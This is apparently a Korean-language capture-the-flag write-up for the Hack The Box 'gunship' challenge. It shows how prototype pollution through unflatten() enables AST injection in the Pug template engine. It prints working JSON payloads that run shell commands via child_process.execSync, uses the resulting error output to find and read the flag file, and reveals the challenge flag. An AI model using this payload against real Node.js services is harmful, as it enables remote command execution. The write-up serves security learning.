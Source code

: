 # gunship
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)

![image](https://github.com/user-attachments/assets/a37cca9a-47ce-4c0a-bd1f-e123b1299067)
- 해당 페이지의 입력폼이다.
- 해당 입력폼 작성시 아래와 같이 리퀘스트가 전송된다.
```
POST /api/submit HTTP/1.1
 Host: 159.65.20.166:31605
 Content-Length: 24
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/53
 Content-Type: application/json
 Accept: */*
 Origin: http://159.65.20.166:31605
 Referer: http://159.65.20.166:31605/
 Accept-Encoding: gzip, deflate, br
 Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
 Connection: close
 {"artist.name":"asfasf"}
```

## Source Code Analysis
```
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```
- ```entrypoint.sh```의 내용은 위와 같다. 랜덤으로 문자열이 붙기 때문에 flag 파일의 이름을 알아내야 한다.

```
 router.post('/api/submit', (req, res) => {
   console.log(req.body)
   const { artist } = unflatten(req.body);
   console.log(artist)
   if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
     return res.json({
       'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
     });
   } else {
     return res.json({
       'response': 'Please provide us with the full name of an existing member.'
     });
   }
 });
```
- ```/api/submit```엔드포인트 소스코드이다. ```artist.name```에 특정 문자열이 포함되어 있어야 ```pug.compile()```이 실행된다는 것을 알 수 있다.
- ```pug```모듈 관련 취약점을 탐색하다 보니 ```Prototype Pollution```을 활용한 AST injection 공격이 가능하다는것을 확인하였고, 해당 취약점 관련 PoC도 함께 찾을수 있었다.
```
"__proto__.block": {
   "type": "Text", 
  "line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
 }
```
- 페이로드의 내용은 위와 같다. ```__proto__.block```과 ```Text``` 타입을 사용

```
switch (ast.type) {
 case 'NamedBlock':
 case 'Block':
   ast.nodes = walkAndMergeNodes(ast.nodes);
   break;
 case 'Case':
 case 'Filter':
 case 'Mixin':
 case 'Tag':
 case 'InterpolatedTag':
 case 'When':
 case 'Code':
 case 'While':
   if (ast.block) {
        ast.block = walkAST(ast.block, before, after, options);
   }
 break;
```
- 해당 코드는 파싱을 담당하는 pug-walk/index.js의 소스 일부분이다.
- ```ast.block```의 값에 따라 ```walkAST()```가 호출되어 재귀적으로 구문 분석이 이루어진다는 것을 알 수 있다.
- ```ast``` 객체는 AST의 현재 노드(Abstract Syntax Tree)를 나타낸다.
- 또한 ```ast.block```은 초기화되지 않은 상태, 따라서 ```Prototype Pollution``` 공격을 통해 block을 오염시키면 공격코드가 구문 분석되는 것이다.

## PoC
```
{
  "artist.name":"Haigh","__proto__.block": {
  "type": "Text",
  "line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
  }
}
```
- 명령이 에러 없이 실행되면 결과를 볼 수 없기 때문에 ```$()```를 추가

```
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(ls | grep flag)<br>/bin/sh: flagzxQu2: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSy
</body>
</html>
```
- 에러메시지로 플래그 파일의 이름이 ```flagzxQu2```라는 것을 알 수 있다.

```
{
  "artist.name":"Haigh","__proto__.block":{
  "type": "Text",
  "line": "process.mainModule.require('child_process').execSync('$(cat flagzxQu2)')"
  }
}
```
- 마찬가지로 에러를 발생시켜 출력값 확인

```
 HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
